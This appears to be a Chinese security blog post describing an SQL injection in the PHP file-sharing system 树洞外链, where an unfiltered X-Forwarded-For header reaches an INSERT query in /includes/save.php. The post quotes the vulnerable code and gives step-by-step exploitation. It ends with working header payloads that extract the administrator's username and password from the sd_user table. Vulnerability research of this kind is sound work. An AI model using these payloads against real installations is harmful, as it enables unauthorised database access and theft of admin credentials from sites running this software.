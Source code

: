 ```yaml
---
title: "树洞外链 insert 注入"
date: 2018-01-01T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms','php']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



树洞外链是一款免费开源的 PHP 外链网盘系统.

<!--more-->

/includes/save.php 23-28 行

```
$ip=get_real_ip();
$dd=date('Y-m-d H:i:s');
$rand = md5(time() . mt_rand(0,1000));
$stmt = $con->prepare("INSERT INTO  `$sqlname`.`sd_file` (`ming` ,`key1` ,`uploadip` ,`uploadtime` ,`cishuo` ,`upuser` ,`policyid`)VALUES (?, '$rand', '$ip', '$dd', '0' , '$uploadUser', '$policyId');");
$stmt->bind_param('s', $ming);
$stmt->execute();
```

调用了 get_real_ip() 之后没有过滤直接 insert

/includes/function.php 36-52 行

```
function get_real_ip(){
$ip=false;
if(!empty($_SERVER["HTTP_CLIENT_IP"])){
$ip = $_SERVER["HTTP_CLIENT_IP"];
}
if (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
$ips = explode (", ", $_SERVER['HTTP_X_FORWARDED_FOR']);
if ($ip) { array_unshift($ips, $ip); $ip = FALSE; }
for ($i = 0; $i < count($ips); $i++) {
if (!eregi ("^(10|172\.16|192\.168)\.", $ips[$i])) {
$ip = $ips[$i];
break;
}
}
}
return ($ip ? $ip : $_SERVER['REMOTE_ADDR']);
}
```

X-Forwarded-For

构造 payload

```
X-Forwarded-For: 1.1.1.1',user(),'0',uid,uid); #
```

注册用户

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/01/1514782481.jpg)

个人资料 - 查看 uid

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/01/1514782681.jpg)

访问 /includes/save.php

别忘了带上 ming 参数 (post)

添加 X-Forwarded-For 更改uid

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/01/1514782764.jpg)

查看我的文件

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/01/1514782795.jpg)

`root@localhost`

exp

```
username: X-Forwarded-For: 1.1.1.1',(select username from sd_user where id=1),'0',uid,uid); #
password: X-Forwarded-For: 1.1.1.1',(select pwd from sd_user where id=1),'0',uid,uid); #
```